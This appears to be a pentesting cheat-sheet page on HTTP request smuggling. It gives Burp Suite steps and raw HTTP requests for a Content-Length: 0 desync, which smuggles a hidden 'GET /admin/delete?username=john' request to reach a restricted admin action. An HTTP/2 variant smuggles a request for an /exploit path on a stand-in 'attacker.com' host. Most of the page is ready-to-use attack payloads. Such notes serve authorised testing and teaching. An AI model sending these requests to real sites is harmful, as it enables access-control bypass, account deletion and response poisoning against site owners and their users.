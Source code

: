 ```yaml
---
title: HTTP Request Smuggling
desc: 
tags: [HTTP, Request, Smuggling, Web]
alts: []
render_with_liquid: false
---
```


## Content-Length: 0

If the target website ignores the Content-Length, you’re able to access the restricted page by request smuggling.

1. **Prepare the Two Same Requests**

    If you're using Burp Suite, send the target request to **Repeater** twice.

2. **Change the First Request to POST Request**

3. **Set the "Content-Length: 0" in the First Request**

4. **Set the "Connection: keep-alive" in the First Request**

    Now two requests should look like:

    ```sh
    # Request 1
    POST / HTTP/1.1
    Host: example.com
    Cookie: key=value
    Connection: keep-alive
    Content-Length: 0

    GET /admin/delete?username=john
    Foo: x

    # -------------------------------------------------

    # Request 2
    GET / HTTP/1.1
    Host: example.com
    Cookie: key=value
    Connection: close
    ```

5. **Send Requests in Order**

    First off, if you're using Burp Suite, note that **enabling the "Update Content-Length" in the Burp Repeater option.**
    The sequence is Request 1 -> Request 2.

<br />

## HTTP/2 Content-Length: 0

1. **Prepare Request**

    If you're using Burp Suite, note that **disable "Update Content-Length" and enable "Allow HTTP/2 ALPN override" in the Burp Repeater option.**

    The request shoud look like:

    ```sh
    POST / HTTP/2
    Host: example.com
    Content-Length: 0

    GET /exploit HTTP/1.1
    Host: attacker.com
    Content-Length: 5

    x=1
    ```

2. **Send Request**

    Before doing, don't forget to **expand the Inspector on the right in the Repeater and select "HTTP/2".**  
    Now send the request a few times.
